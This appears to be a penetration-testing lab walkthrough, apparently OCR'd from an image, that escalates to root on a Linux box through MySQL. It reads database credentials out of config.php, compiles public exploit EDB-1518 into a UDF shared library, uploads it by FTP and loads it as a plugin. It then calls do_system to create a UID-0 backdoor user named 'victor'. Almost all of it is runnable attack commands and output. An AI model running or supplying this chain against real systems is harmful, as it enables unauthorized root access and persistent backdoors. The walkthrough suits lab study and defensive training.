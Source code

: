 ```bash
cat /var/www/config.php

# output
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
?>
```

```bash
# attacker side
cd exploits
searchsploit linux mysql
mkdir edb-id-1518
cd edb-id-1518
searchsploit -m 1518
mv 1518.c pwn.c
gcc -g -c pwn.c
gcc -g -shared -Wl,-soname,pwn.so -o pwn.so pwn.o -lc
ftp 192.168.114.56 21
put pwn.so
exit
```

```bash
# target side
mysql -u root -p # EscalateRaftHubris123
use mysql;
create table PWN(line blob);
insert into PWN values(load_file('/var/www/html/pwn.so'));
select * from PWN into dumpfile '/usr/lib/mysql/plugin/pwn.so';
# if the cmd above does not work, trying copying it manually
create function do_system returns integer soname 'pwn.so';
# https://www.root-me.org/?page=forum&id_thread=5072
select * from mysql.func;
```

```bash
# attacker side
sudo tcpdump -i tun0 icmp
```

```bash
# target side
select do_system('ping -c3 192.168.49.114');
select do_system('useradd -p $(openssl passwd -crypt password) -s /bin/bash -o -u 0 -g 0 victor');
exit;
tail -n1 /etc/passwd
su victor # password
id 

# output
uid=0(root) gid=0(root) groups=0(root)
```
